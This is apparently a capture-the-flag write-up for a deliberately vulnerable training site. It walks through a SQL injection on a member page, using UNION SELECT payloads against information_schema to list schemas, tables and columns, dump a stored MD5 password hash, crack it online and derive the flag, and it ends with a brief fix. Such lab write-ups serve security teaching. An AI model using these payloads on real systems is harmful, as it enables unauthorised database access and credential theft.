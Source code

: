 # SQL Injection (member)

## Vulnerability

At the top of the page, there is a `members` link to: [`index.php?page=member`](http://darkly/index.php?page=member).

The page contains an input and a button.
Giving an empty input and clicking on submit gave us the following error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
```

That means that an SQL Injection is possible.
It also tells us that we have a MariaDB (which might guide us as to [which syntax is possible](https://book.hacktricks.xyz/pentesting-web/sql-injection#identifying-back-end)).
We can verify it by doing a simple query: [[run]](<http://darkly/index.php?page=member&id=1+OR+true&Submit=Submit#>)
```sql
1 OR true
```

Give the result:
```
ID: 1 OR true 
First name: one
Surname : me

ID: 1 OR true 
First name: two
Surname : me

ID: 1 OR true 
First name: three
Surname : me

ID: 1 OR true 
First name: Flag
Surname : GetThe
```

Since we can't blindly explore the database, we have to extract some metadata first.

The first one is the table name using the following query: [[run]](<http://darkly/index.php?page=member&id=1+UNION(SELECT+%60SCHEMA_NAME%60,+1+FROM+%60information_schema%60.%60SCHEMATA%60);&Submit=Submit#:~:text=Member_Sql_Injection>)
```sql
1 UNION(SELECT `SCHEMA_NAME`, 1 FROM `information_schema`.`SCHEMATA`);
```

We can now see the tables name:
- `information_schema`
- `Member_Brute_Force`
- `Member_Sql_Injection`
- `Member_guestbook`
- `Member_images`
- `Member_survey`

Since the challenge seems to be an SQL Injection, let's take `Member_Sql_Injection`.

Now we need to extract the tables name: [[run]](<http://darkly/index.php?page=member&id=1+UNION(SELECT+%60TABLE_NAME%60,+%60TABLE_SCHEMA%60+FROM+%60information_schema%60.%60TABLES%60);&Submit=Submit#:~:text=TABLES%60)%3B%20%0AFirst%20name%3A-,users,-Surname%20%3A%20Member_Sql_Injection>)
```sql
1 UNION(SELECT `TABLE_NAME`, `TABLE_SCHEMA` FROM `information_schema`.`TABLES`);
```

By filtering in the data, we can see that there is only one table: `users`.

Now we need to extract the columns name: [[run]](<http://darkly/index.php?page=member&id=1+UNION%28SELECT+%60TABLE_NAME%60%2C+%60COLUMN_NAME%60+FROM+%60information_schema%60.%60COLUMNS%60%29%3B&Submit=Submit#:~:text=name%3A%20users%0ASurname%20%3A-,user_id,-ID%3A%201%20UNION>)
```sql
1 UNION(SELECT `TABLE_NAME`, `COLUMN_NAME` FROM `information_schema`.`COLUMNS`);
```

By filtering in the data, we now know the column names:
- `user_id`
- `first_name`
- `last_name`
- `town`
- `country`
- `planet`
- `Commentaire`
- `countersign`

Only the last two contains interesting informations.

By querying them, we know what to do next: [[run]](<http://darkly/index.php?page=member&id=1+UNION(SELECT+%60Commentaire%60,+%60countersign%60+FROM+%60users%60);&Submit=Submit#:~:text=5ff9d0165b4f92b14994e5c685cdce28>)
```sql
1 UNION(SELECT `Commentaire`, `countersign` FROM `users`);
```
```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

Using a universal hash decryptor likes [hashes.com](https://hashes.com/en/decrypt/hash), the MD5 match has been found:
```
5ff9d0165b4f92b14994e5c685cdce28:FortyTwo:MD5
```

So, the flag is:
```
sha256(lower('FortyTwo'))
```

## Possible Fix

- Use prepared statements.
